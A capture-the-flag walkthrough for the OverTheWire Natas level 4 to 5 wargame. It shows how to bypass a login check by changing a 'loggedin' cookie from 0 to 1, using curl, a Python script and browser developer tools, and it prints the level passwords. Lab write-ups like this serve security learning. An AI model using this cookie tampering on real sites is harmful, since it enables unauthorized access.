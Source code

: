 # Level 4 - Level 5: Natas - OverTheWire

## Level Goal

Username: natas5
URL:      http://natas5.natas.labs.overthewire.org

## Solution
After running `./natas.sh` we can see the following message:

```html
<div id="content">
Access disallowed. You are not logged in</div>
````

It seems the webpage doesn't have anything else of interest, however, if we think about what "logging in" typically entails, there is usually a session or user `cookie` that is set in the browser.

If we re-run the `curl` command manually and include the `-v` flag, we will also get the HTTP response headers in the output. One of the headers we receive from the webserver is `Set-Cookie` which is the method used in HTTP requests to set a cookie in a users' browser.

```bash
< Set-Cookie: loggedin=0
```

It appears the server has set a cookie with the value of `0`, typically meaning `false` (where `1` = `true`). The solution of this level is likely to change this cookie to `1` to trick the webserver into thinking we're logged in. Future web requets made to the webserver will include this cookie with the value we set it to.

As has been the case with previous levels, there are several ways we can do this. I'll cover with `curl`, with a python script, and from within the browser itself.

## Bash one-liner
```bash
└─$ curl -s --request GET --cookie "loggedin=1" http://natas5.natas.labs.overthewire.org -u natas5:Z0NsrtIkJoKALBCLi5eqFfcRN82Au2oD | grep password
Access granted. The password for natas6 is fOIvE0MDtPTgRhqmmvvAOt2EfXR6uQgR</div>
```

I have covered most of these `curl` flags before, but quickly:

* `-s`: Silent output (avoids progress bar in the output)
* `-u`: User credentials for HTTP basic authentication
* `--request`: Used to specify the request method we are making to the webserver
* `--cookie`: This is where we specify the cookies we want to inject into our request. In this case, we're setting `loggedin` to = `1` (as by default it is set to `0`, or "not logged in")

Then, we simply just `grep` for `password` to clean up the output.

## Python
```python
import requests

cookies = {
    'loggedin': '1',
}

response = requests.get(
    'http://natas5.natas.labs.overthewire.org',
    cookies=cookies,
    auth=('natas5', 'Z0NsrtIkJoKALBCLi5eqFfcRN82Au2oD'),
)

print(response.text)
```
This Python script uses the requests library to make an HTTP GET request to `http://natas5.natas.labs.overthewire.org`.

The `cookies` dictionary sets a cookie in the request with the key `loggedin` and the value `1`.

The `requests.get()` function is used to make the `GET` request. The url argument specifies the URL to make the request to, and the cookies argument is used to pass the cookie dictionary to the request. The `auth` argument is used to specify HTTP Basic Authentication credentials.

Finally, the response text is printed using `print(response.text)`. The response text represents the HTML content of the page that was returned by the server in response to the `GET` request.

## Browser
In the browser (Firefox for example), we can simply open the Developer Tools (usually `F12`). Go under `Storage` > `Cookies` and you should see the cookie value set `loggedin: 0`. Simply double-click (or right click > edit) and change the `0` to a `1`. Refresh the page to make a new request with the new saved cookie value, and you should receive the password.
